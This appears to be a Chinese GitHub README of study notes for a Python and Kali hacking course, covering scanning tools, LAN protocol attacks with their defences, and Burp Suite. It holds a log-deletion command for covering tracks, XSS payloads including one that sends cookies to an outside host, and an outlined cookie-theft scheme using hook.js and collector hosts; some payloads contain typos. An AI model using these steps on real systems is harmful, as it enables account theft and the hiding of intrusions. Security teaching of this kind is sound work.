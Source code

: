 # [乾颐堂](https://www.qytang.com/) Python+Kali黑客全套教程

## 0x00 视频 + 源码 + PDF

- videos
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [python+kali的全套黑客编程实践教程，全知识点+实践练习，（针对小白/python/kali/网络安全）](https://www.bilibili.com/video/BV1bG4y1H784/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?vd_source=7f220845f0d7bc792a045e75a5ac8b8d#reply136957487232)

- 源码 + PDF

  需要 + up 主 wx

- PDF

  暂存本地 [python&kali 教程](待定)



## 0x01 简单记录

<!--last modify: 20230922-->

- 扫描工具

  ping  /  fping / nping / arping / nbtscan / onesixtyone

- python + nmap

  ```tex
  # https://pypi.org/project/python-nmap/
  # pip install python-nmap
  # import nmap
  ```

  - pypi 中有相关使用方法

- 痕迹清理

  ```shell
  del %WINDIR%\*.log /a/s/q/f # 强制静默删除只读文件
  ```

- nexpose api

  ```tex
  https://<host>:<port>/api/api-version/xml
  ```

- 协议攻击

  ```tex
  mac 泛洪 + mac 欺骗
      macof
      # 防御 port security 技术
  
  dhcp 攻击
      pig.py 干掉合法dhcp 服务器
      非法dhcp 服务器开始干活儿
      # 防御 dhcp snooping 技术
  
  arp 攻击
      arpspoof
      # 防御 DAI 技术
  
  dns spoofing
      ettercap # dns 欺骗
      set # 社会工程学
  ```

- windows 沙盒探测



- 工具

  ```tex
  BurpSuite
  	Proxy 代理 / Intruder 攻击 / Repeater 重放
      Comparer 可比较两个不同请求页面的响应区别
      Spider 手工爬取+自动爬取
      Scanner 手工+自动
      Sequencer 自动确认Cookies 随机性
      Decoder + Extender 编/解码(绕过) + 扩展(WAF 绕过等)
  ```

- XSS POC & 攻击技巧

  ```tex
  # 手工改确认
  	1- 脚本：<script>alert('xss')</script>
  	2- 超链接：<a href='' onclick=alert('xss')>click it</a>
  	3- 图片：<img src=http://172.16.1.23/a.jpgg onerror=alert('xss')>
  	4- 重定向：<script>window.location="http://www.testfire.net/index.jsp"</script>
  	5- iframe：<iframe width=300 height=100 src="http://dvwa.com/xss_vul/?name=<script>window.location='http://baidu.com/login_cookie.php?sid='%2Bdocumet.cookie;</script>"></iframe>
  	6- DOM：<script>document.body.ierHTML="<div style=visibility.visible;><br/><br/><h1>test</h1></div>";</script>
  
  # 攻击技巧
  	1- hook
  	2- keylogger
  /*
  1. 诱导受害者访问钓鱼网站
  2. 钓鱼网站触发访问目标(可信本地存在cookie)站点
  3. 触发本地PC 下载hook.js 文件
  4. 本地PC 运行hook.js 文件，获取cookie
  5. 发给hacker 站点，收集cookie
  6. hacker 站点以邮件形式发出
  
  http://target.vulhost.com/xss.php # 目标站点
  http://gofish.hack.net/index.jsp # 社工伪造钓鱼网站
  http://hook.hack.net/xss_hook.js # hook 站点
  http://collect.hack.net/xss_hook2email.php # 通过hook 站点收集信息的站点
  */
  
  ```
  
  
